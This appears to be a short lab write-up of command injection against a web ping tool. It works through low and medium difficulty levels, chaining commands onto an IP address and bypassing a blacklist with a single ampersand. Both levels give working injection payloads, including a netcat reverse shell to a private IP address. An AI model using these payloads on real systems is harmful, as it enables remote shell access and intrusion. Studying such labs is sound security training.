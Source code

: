 # Low
- we see what looks to be a ping tool
- lets test it one with valid input and another test with invalid one
- we observe that if the input valid we see output and if not we see nothing
- need to know which commands we can excute and how to chain them
- we know that the whoami and hostname commands are the exact same in both Windows and Linux
- if we were doing a black-box pentest, we would need to figure out what OS the web server uses. We could run a command unique to each OS and examine any output to see what fails
- now to how to chain commands we search and find that (&)and (;)can be used in both os linux and windows
- we try
- ```
  127.0.0.1 && whoami && hostname
  ```
- we got an output which is www-data
- we can clean the output
- ```
  127.0.0.1&& echo "\nUser: $(whoami)"&& echo "Hostname: $(hostname)"
  ```
- get a reverse shell
- ```
  127.0.0.1 && nc 192.168.206.129 1234 -e /bin/sh
  ```
# Medium
- looking at the source code we find that it blacklist some of the cahin methods like && and ;
- we can use other chain methods like only one &
- we craft the payload and yes it works
- ```
  127.0.0.1 & nc 192.168.206.129 1234 -e /bin/sh
  ```
  

